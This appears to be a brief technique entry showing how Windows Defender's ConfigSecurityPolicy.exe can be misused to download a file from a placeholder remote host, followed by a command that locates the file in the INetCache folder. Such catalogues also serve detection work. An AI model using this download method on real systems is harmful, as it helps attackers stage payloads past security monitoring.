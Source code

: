 ### Download file
```
"C:\Windows\WinSxS\amd64_windows-defender-management-v1_31bf3856ad364e35_10.0.19041.746_none_f89edd426718e367\ConfigSecurityPolicy.exe" https://<rhost>/file.txt
```

### Search for downloaded file
```
cmd.exe /c "where /r %LOCALAPPDATA%\Microsoft\Windows\INetCache file*"
```

